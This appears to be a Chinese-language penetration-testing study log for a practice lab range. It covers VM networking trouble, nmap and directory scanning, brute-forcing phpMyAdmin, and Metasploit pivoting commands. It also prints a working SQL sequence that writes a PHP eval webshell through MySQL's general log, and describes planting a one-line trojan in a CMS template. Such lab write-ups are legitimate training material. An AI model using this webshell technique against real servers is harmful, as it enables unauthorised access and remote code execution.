

#### 思考：

1. 如何将后门程序自启动
2. metasploit 各个阶段，左边提示是不一样的，各种时候代表着什么。
3. 如何使用代理，跳板手段，内网通道构建

#### 流程要点：

1. 寻找web网站服务器漏洞，使用漏洞获取后门，并将后门持续化
2. 资料搜集，权限提升命令，还有后门程序维持
3. 使用windows shell的时候乱码  chcp 65001
4. 获取主机的网络信息，查询目标主机能通到哪里。`run get_local_subnets`
5. 添加路由，有一条命令直接加完。`run post/multi/manage/autoroute`
6. 除了获取主机权限，还需要获取所在域内的成员账号权限。
7. 有域管理员账号，就能在域成员主机内，连接到其他域成员主机，复制文件，执行文件等操作。
8. `socks_proxy`只能通tcp的报文，因此不是任何请求都能通过此方式跳转。
9. 使用web服务器机器作为跳板代理，扫描内网。其实只是添加了另外一个网段的路由。


#### 1. 靶场配置

是因为我用mac的原因吗？一个下午，才能在自己的kali系统，ping通win7.首先是VMware Fusion需要是Pro版本，不然没发自定义VMnet，但是等我弄了Pro版本，自定义了VMnet，又发现好像不需要额外创建什么Vmnet1，VMnet2，VMnet3？？？那那些教程是干嘛的。

其次，我win7，无论是nat or 桥接， kali一直ping不通。。。搞了很久，原来是win里面网络类型，选了`工作区`我是想着，这个东西不是模拟公司内网嘛。然后用了nat或者桥接，只要开了两个网卡，kali那边即使是同一个网段，都不能打开这台win7的的服务。。。


密码： hongrisec@2019  2023? 2024?  ASDFqwer123 


#### 2. 信息收集

1. nmap搜集主机端口情况

```shell
nmap -sV 192.168.4.50
# 结果
Nmap scan report for 192.168.4.50
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
3306/tcp open  mysql   MySQL (unauthorized)
```

2. Dirbuster 

填入扫描主机ip，选择字典，然后刷个视频，摸一下鱼。


3. 看到有phpmyadmin这个目录后，别人都是弱口令root进去了，我要试试九头蛇行不行。


4. 冲到密码之后,看别的师傅是修改phpadmin中，写log的地址，原理应该是你执行的sql语句，都会记录到这个目录，那么加上这个靶机开启了php服务器，如果将这个log文件写到`/WWW`目录下，那么客户机是能访问到的，其次如果将php语句写入到一个php文件？ 😏

**flag：日志文件写入shell**

```shell
set global general_log="ON";
set global general_log_file="C:/phpStudy/WWW/shell.php";
select "<?php @eval($_POST['cmd']); ?>";
```

然后在蚁剑，地址写上`ip地址/shell.php`,密码是cmd



5. 抄袭老师的做法，备份了`yxcms`的代码，然后查找关于这个`cms`的历史漏洞。然后其实这个页面红日给出了答案。


登录了后台管理，然后在`前台模板->管理模板文件->index_index.php`编辑首页的php代码，插入一句话木马。


#### 3. 内网渗透


